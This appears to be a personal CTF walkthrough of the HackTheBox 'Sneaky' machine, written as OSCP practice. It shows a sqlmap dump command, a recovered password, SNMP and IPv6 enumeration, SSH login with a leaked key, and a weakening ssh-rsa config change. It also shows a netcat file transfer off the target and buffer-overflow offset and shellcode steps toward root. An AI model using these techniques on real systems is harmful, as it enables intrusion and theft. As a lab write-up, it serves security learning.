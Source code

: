 # Sneaky Walkthrough
Name: Sneaky
Date:  19/10/2022
Difficulty: Medium 
Goals: OSCP revision, BoF, learn about IPv6 with Ippsec - do the intended way.
Learnt: 
- IPv6
- Modern system dont like RSA
- Dont get carried away with gef... and better shell locating!
- More gdb revision 

 ## Resources:
[0xdf](https://0xdf.gitlab.io/2021/03/02/htb-sneaky.html)
[Ippsec](https://www.youtube.com/watch?v=1UGxjqTnuyo)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Sneaky/Screenshots/ping.png)
	
## Exploit

The site is vulnerable to SQL injection a subject that I am familiar with, but I have not done I much as want to.

![sqli](Screenshots/sqlsuccess.png)
![devlogin](Screenshots/adminlogin.png)

Ran sqlmap with:
```bash
sqlmap -r sqlmapwhileippsectalksipv6 -p pass --dbms mysql --level 4 --risk 3 --dump
```

While Ippsec talks IPv6 

![sqlmap](Screenshots/sqlmapsuccess.png)
`sup3rstr0ngp4ssf0r4d`

Check out IPv6 Defined in Archive!

Basically there is unintended way to do this machine using IPv6 using that id\_rsa with the external HackTheBox network of the machine.

...Intended way, do your UDP nmap scans!
While I waited for my UDP scans to run I tried some SNMP recon.
```bash
onesixtyone 10.129.1.179 public
Scanning 1 hosts, 1 communities
10.129.1.179 [public] Linux Sneaky 4.4.0-75-generic #96~14.04.1-Ubuntu SMP Thu Apr 20 11:06:56 UTC 2017 i686
```
You could also stalk the creator of the CTF who made a [IPv6 enumeration tool](https://github.com/trickster0/Enyx/blob/master/enyx.py) or you could just:
```bash
cat snmpwalk-output | grep iso.3.6.1.2.1.4.34.1.3.2.16|cut -d "." -f 13-28 | cut -d " " -f 1
# Output will be in the format by line 
# Loopback
# Link-Local
# Unique-Local
cat -n snmpbulkoutput | grep "inetCidrRouteIfIndex.ipv6"
```
dead:beef:0000:0000:0250:56ff:fe96:5f7a
Another alternative is to setup a VM or snapshot for python2, given the hell hole of being in 2022 and trying to convert is difficult, time consuming and sort of pointless. 

![](enyx.png)

```bash
ssh -i id_rsa thrasivoulos@dead:beef:0000:0000:0250:56ff:fe96:14cc
```

RSA support for ssh is not supported anymore the fix **WHICH IS REALLY DANGEROUS REVERT ASAP REGARDLESS** is:
```bash
echo "    PubkeyAcceptedKeyTypes +ssh-rsa" | sudo tee -a /etc/ssh/ssh_config

```

![](fixingit.png)

## Foothold

The feeling..

## PrivEsc

For the buffer overflow hadnholding I have wanted for some time!
```
/usr/local/bin/chal
# Tranfer it to cheksec on it
# Attack
nc -lvnp 8080 > chal.b64
# Sneaky
base64 /usr/local/bin/chal | nc $ip 8080
# Attack
base64 -d chal.b64 > chal
```
   
![900](checksec.png)   

Enumerate Offset 

![](firstsegfault.png)

`0x316d4130`

```bash
msf-pattern_offset -q $0xaddress
362
```

Also gef is great.
```bash
x/100x $esp
x/500x $esp # I found useful in finding a better shellcode location
```

![](gefisgreat.png)

For the shellcode:  https://packetstormsecurity.com/files/115010/Linux-x86-execve-bin-sh-Shellcode.html. After remembering the wonderous differences of 32 bit and 64 bit machines. Some gbd reacquaintance:

![](root.png)